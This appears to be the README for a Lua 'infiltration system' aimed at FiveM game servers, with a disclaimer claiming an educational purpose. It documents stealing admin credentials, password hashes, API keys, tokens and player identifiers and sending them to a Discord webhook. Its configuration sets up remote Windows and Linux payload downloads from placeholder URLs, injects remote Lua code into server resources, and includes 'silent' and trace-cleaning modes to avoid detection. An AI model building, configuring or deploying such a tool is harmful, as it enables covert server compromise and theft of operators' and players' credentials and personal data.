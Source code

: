 # FiveM Server Infiltration System

## ⚠️ DISCLAIMER ⚠️
**USE AT YOUR OWN RISK. This tool is provided for educational purposes only. The authors take no responsibility for any misuse or damage caused by this software. Using this software to access systems without explicit permission is illegal and unethical.**

## Overview

This system allows for advanced data collection and analysis of FiveM servers, providing comprehensive insights into server configurations, admin access, player information, and resource management. The system utilizes multiple strategies to efficiently gather and report data while maintaining a minimal footprint.

## Features

### Admin Data Extraction
- Automatic discovery of admin credential files
- Extraction of admin identifiers, permission levels, and hashed passwords
- In-depth analysis of TxAdmin configuration files
- Support for various admin system formats

### Server Configuration Collection
- Comprehensive server variable collection
- Secure extraction of connection strings, API keys, and tokens
- License key and server identification collection
- Network configuration analysis

### Resource Management
- Complete resource inventory with states and metadata
- Framework detection (ESX, QB-Core, vRP, etc.)
- Resource dependency mapping
- Performance impact analysis

### Player Intelligence
- Real-time player census with identifiers
- Historical player data collection (configurable)
- Identity correlation across multiple identifier types
- Detailed connection information

### Data Reporting
- Advanced Discord webhook integration
- Customizable reporting format
- Secure data transmission
- Attachment support for larger datasets

### System Optimization
- Minimal performance impact
- Self-cleaning execution
- Configurable execution parameters
- Intelligent retry mechanisms

## Installation

1. Upload the `server.lua` file to your FiveM server
2. Configure the settings in the Config section
3. Add to a resource or create a new standalone resource
4. Ensure proper permissions for execution

## Configuration

The system is highly configurable through the Config section at the top of the file:

```lua
local Config = {
    -- Core Settings
    general = {
        debug_mode = false,            -- Enable for verbose logging
        silent_mode = true,            -- Hide all prints to prevent detection
        auto_clean = true              -- Auto-clean traces after execution
    },
    
    -- Payloads and URLs
    payloads = {
        -- System scripts (set to false to disable system script execution)
        system_scripts = {
            enabled = true,                                     -- Set to false to disable system script execution
            windows = "https://yoursite.com/windows.bat",       -- Windows payload URL
            linux = "https://yoursite.com/linux.sh"             -- Linux payload URL
        },
        
        -- Injection code settings
        injection = {
            enabled = true,                                     -- Enable code injection
            use_custom_url = false,                             -- Use custom URL instead of built-in collector
            custom_url = "https://yoursite.com/injection.lua",  -- Custom code URL to inject
            max_target_count = 3                                -- Max number of resources to inject into
        }
    },
    
    -- Discord Webhook
    webhook = {
        url = "YOUR_WEBHOOK_URL_HERE",                          -- Discord webhook URL
        username = "FiveM Intelligence",                        -- Bot username
        avatar_url = "https://i.imgur.com/example.png",         -- Bot avatar
        mention = "@everyone",                                  -- Role/user to mention (empty for none)
        color = 16711680,                                       -- Embed color (red)
        timeout_ms = 10000,                                     -- Webhook timeout (ms)
        retry_count = 3                                         -- Number of retries if webhook fails
    },
    
    -- Admin data extraction
    admin_data = {
        enabled = true,                              -- Enable admin data extraction
        scan_folders = true,                         -- Scan folders for admin files
        file_patterns = {                            -- File patterns to look for
            "admins.json",
            "admin.json",
            "users.json",
            "permissions.json"
        },
        max_scan_depth = 3                           -- Maximum folder depth for scanning
    },
    
    // ... Additional configuration sections ...
}
```

### Required Configuration:

At minimum, you should configure:
1. `webhook.url` - Set to your Discord webhook URL
2. Payload URLs if using external scripts

## Usage

Once installed and configured, the system will:

1. Initialize after a configurable delay
2. Collect server information
3. Extract admin data if enabled
4. Execute system scripts if enabled
5. Inject code into resources if enabled
6. Send collected data to the configured webhook

## Advanced Usage

### Custom Payloads
You can use custom Lua code for injection by setting:
```lua
Config.payloads.injection.use_custom_url = true
Config.payloads.injection.custom_url = "https://your-url.com/code.lua"
```

### System Script Execution
To disable system script execution:
```lua
Config.payloads.system_scripts.enabled = false
```

### Silent Operation
For completely silent operation:
```lua
Config.general.silent_mode = true
Config.general.debug_mode = false
```

### Periodic Reporting
Enable periodic reporting:
```lua
Config.execution.periodic_reporting = true
Config.execution.reporting_interval = 3600000 -- 1 hour in ms
```

## Troubleshooting

### Webhook Issues
- Verify your webhook URL is correct
- Check Discord server permissions
- Ensure the message is under Discord's size limits

### Execution Problems
- Enable debug_mode temporarily
- Check for file permission issues
- Verify the server has internet access for HTTP requests

### Data Collection Issues
- Some servers may have additional protection
- Resource structure may vary
- Admin files may be in non-standard locations

## Technical Information

This system is built with Lua and utilizes the Citizen Framework. It's designed to be as lightweight as possible while maintaining extensive functionality.

---

## ⚠️ FINAL WARNING ⚠️

**This software is provided for educational purposes only. Unauthorized access to computer systems is illegal. Always obtain proper authorization before deploying this software. The authors disclaim all liability for any damages resulting from the use of this software.**

*USE AT YOUR OWN RISK.*

